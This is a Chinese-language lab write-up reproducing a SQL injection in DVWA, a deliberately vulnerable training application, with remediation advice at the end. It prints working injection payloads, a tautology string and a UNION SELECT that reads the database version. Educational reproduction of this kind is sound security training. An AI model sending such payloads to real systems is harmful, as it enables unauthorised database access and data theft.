 # 🧪 DVWA SQL 注入（SQLi）漏洞复现报告

> 本报告复现了 DVWA 中的 SQL 注入漏洞，通过构造恶意 SQL 语句获取数据库信息，演示其攻击原理与危害，并提出修复建议。

---

## 🧾 一、实验信息

- 📅 实验时间：2025 年 7 月 9 日  
- 💻 实验系统：Kali Linux（物理机）  
- 🌐 靶场平台：DVWA（Damn Vulnerable Web Application）  
- 🔒 漏洞类型：SQL 注入（SQL Injection）  
- 🔧 难度设置：Low

---

## 📌 二、漏洞页面路径

```text
http://localhost/dvwa/vulnerabilities/sqli/
```

该页面存在用户 ID 查询功能，输入框未对用户输入进行过滤。

## 🧪 三、漏洞复现过程

### 1️⃣ 正常请求示例：

输入：

```
1
```

返回：

```
First name: admin
Surname: admin
```

### 2️⃣ 注入测试 payload：

```
1' or '1'='1
```

✅ 效果：返回多个用户信息，证明注入成功。

📸 截图见下文：`screenshots/sqli_success.png`

![SQLi漏洞](/screenshots/sqli_success.png)

### 3️⃣ 构造信息泄露型 payload（获取数据库版本）：

```
1' union select 1, @@version #
```

✅ 效果：可回显数据库版本信息。

📸 截图：`screenshots/db_dump.png`

![SQLi信息泄露](/screenshots/db_dump.png)

## 💡 四、漏洞原理分析

SQL 注入是由于程序直接将用户输入拼接进 SQL 查询语句，攻击者可构造恶意语句破坏原有逻辑，从而读取、修改、删除数据库中的数据。

## 🎯 五、危害评估

- 获取用户登录信息、密码 hash
- 绕过身份验证
- 删库、数据泄露
- 可作为进一步提权与持久化入口

## 🛡 六、修复建议

- 使用 **预处理语句 / 参数化查询**（如 PDO、mysqli）
- 严格验证与过滤用户输入（白名单机制）
- 错误信息隐藏，防止信息泄露
- 对于返回内容使用 `htmlspecialchars` 转义

## 📚 七、参考链接

- OWASP SQL Injection
- [DVWA GitHub](https://github.com/digininja/DVWA)
